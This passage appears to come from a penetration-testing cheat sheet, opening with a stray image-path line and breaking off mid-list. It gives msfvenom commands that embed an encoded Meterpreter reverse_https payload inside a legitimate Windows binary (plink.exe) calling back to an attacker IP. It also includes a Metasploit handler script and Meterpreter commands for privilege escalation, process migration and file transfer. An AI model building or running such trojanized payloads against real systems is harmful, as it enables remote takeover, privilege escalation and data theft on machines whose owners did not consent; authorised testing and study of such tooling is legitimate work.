     # transport binary to target and execute it
    ./staged 

    # on attacker:
    meterpreter> ?

### use case: Windows connect back binary with staged embedded payload 

```
# prepare binary
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.30.68 LPORT=443 -f exe -e x86/shikata_ga_nai -i 8 -x /usr/share/windows-binaries/plink.exe -o ./plink.exe

# prepare handler on attacker (use msf script)
cat << "EOF" > ./https-meter-handler.rc
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_https
set LHOST 192.168.30.68
set LPORT 443
set ExitOnSession false
exploit -j -z
EOF

# run script
msfconsole -r https-meter-handler.rc

# transport binary to target and execute it
plink.exe

# on attacker
sessions -v
sessions -i <id>
meterpreter> ?
```

## Meterpreter

### basic usage

    ?
    getuid
    # attempt to escalate privs
    getprivs
    ifconfig
    sysinfo
    ps
    upload
    download
    migrate
    # priv escalation attempt (5 exploits are tried)
    getsystem
    # bg current meterpreter session and return to msf>
    background
    # recursively search all drives for file
